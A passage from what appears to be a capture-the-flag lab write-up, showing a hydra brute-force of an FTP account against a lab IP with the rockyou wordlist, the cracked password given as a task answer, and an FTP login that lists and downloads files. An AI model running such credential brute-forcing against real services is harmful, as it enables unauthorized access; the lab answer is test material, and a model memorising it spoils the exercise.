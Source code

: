 &nbsp;

## Task 3 Hash cracking and brute-force
### FTP password
- Using `hydra`, we can brute force the password for the user `chris`.
```
$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.80.123
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-13 13:41:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.80.123:21/
[21][ftp] host: 10.10.80.123   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-13 13:42:52
```
- Now we know that the password for user `chris` is `crystal`.
### Answer
```
crystal
```

&nbsp;

### Zip file password
- Let's login through FTP using those credentials.
```
$ ftp chris@10.10.80.123
Connected to 10.10.80.123.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
- Let's list out the contents.
```
ftp> ls
229 Entering Extended Passive Mode (|||36660|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```
- We can now download all the file using the `get` command.
```
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||9210|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |***********************************************************************************************************************************************************************************************|   217       22.46 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (1.51 KiB/s)
ftp> get cute-alien.jpg
```